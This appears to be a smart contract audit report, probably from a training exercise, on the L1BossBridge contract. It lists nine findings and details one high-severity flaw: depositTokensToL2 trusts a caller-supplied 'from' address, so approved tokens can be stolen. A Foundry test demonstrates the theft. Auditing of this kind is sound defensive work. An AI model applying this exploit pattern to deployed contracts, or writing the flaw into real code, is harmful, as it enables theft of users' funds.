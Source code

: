 ## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 7                      |
| Medium   | 0                      |
| Low      | 2                      |
| Info     | 0                      |
| Gas      | 0                      |
| Total    | 9                      |

# Findings

## High 

### [H-1] Users who grant token approvals to L1BossBridge risk having their assets stolen.

**Description:** The `L1BossBridge::depositTokensToL2` function allows anyone to call it with a `from` address of any account that has approved tokens to the bridge.

**Impact:** As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, and assign them to the attacker's address in L2 (setting an attacker-controlled address in the `l2Recipient` parameter).

**Proof of Concept:** Include the following test in the `L1BossBridge.t.sol` file:


```javascript
 function testCanMoveApprovedTokensOfOtherUsers() public{
        vm.startPrank(user);
        token.approve(address(tokenBridge), type(uint256).max);

        uint256 depositAmount = token.balanceOf(user);
        address attacker = makeAddr("attacker");

        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));  
        emit Deposit(user, attacker, depositAmount);
        tokenBridge.depositTokensToL2(user, attacker, depositAmount);

        assertEq(token.balanceOf(user), 0);
        assertEq(token.balanceOf(address(vault)), depositAmount);
        vm.stopPrank();
    }
```
